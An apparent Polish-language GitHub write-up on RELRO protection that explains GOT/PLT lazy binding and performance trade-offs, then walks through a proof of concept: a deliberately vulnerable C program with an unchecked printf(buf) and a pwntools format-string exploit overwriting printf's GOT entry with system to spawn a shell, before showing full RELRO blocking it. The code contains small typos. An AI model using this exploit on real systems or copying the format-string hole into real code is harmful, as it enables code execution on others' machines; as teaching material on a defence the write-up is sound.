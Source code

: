 # RELRO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako sekcji tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielonej zostanie wywołana, GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker zostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

W gcc kompiluje się z full RERLO flagą `-z,relro,now`.


### 3. Wydajność

Partial RELRO jest domyślnym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program.

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić całą tablicę GOT. Jednak sam `run-time performance` jest taki jak aplikacji bez full GOT, ale z wczytanymi symbolami.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów.
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyję exploitu typu `format string` który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić, jak daleko na stosie jest `buf`. Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument, niż najwyższy używam konstrukcji `%3$x`.

![img_1.png](img/img_1.png)

Bufor znajduje się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres `system` pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyświetlonych, pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem - liczba jest ogromna.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chcę zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanymi przez tag x.

Pod adres `0x0804c012` chcę zapisać wyższą część adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit włączony na kodzie z włączonym relro nie daje żadnego skutku - adres got znajduje się w innym miejscu. W przypadku próby nadpisania tego miejsca następuje `SIGSEGV` - wykonanie chciało nadpisać sekcje read-only. Kod tego exploitu znajduje się w `exploit1.py`.

![img_6.png](img/img_6.png)

### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RELRO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.



